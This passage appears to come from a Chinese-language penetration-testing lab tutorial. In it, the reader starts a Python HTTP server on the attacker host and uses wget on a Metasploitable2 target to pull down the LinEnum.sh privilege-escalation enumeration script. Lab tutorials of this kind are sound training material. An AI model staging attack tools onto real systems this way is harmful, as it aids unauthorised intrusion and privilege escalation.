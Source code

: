 接下来进入`/tmp`目录，使用 Python3 快速搭建 HTTP 服务，端口为 8000：

```bash
cd /tmp
python3 -m http.server 8000
```

![图片描述](..\images\2021-01-23_118.jpg)

使用 `ip addr` 命令查询到主机 IP 地址为 `192.168.122.1`：

![图片描述](..\images\2021-01-23_119.jpg)

在 Metasploitable2 终端中使用 wget 工具下载 `LinEnum.sh`并保存到`/tmp`:

```bash
wget 192.168.122.1:8000/LinEnum.sh -P /tmp
```

![图片描述](..\images\2021-01-23_120.jpg)
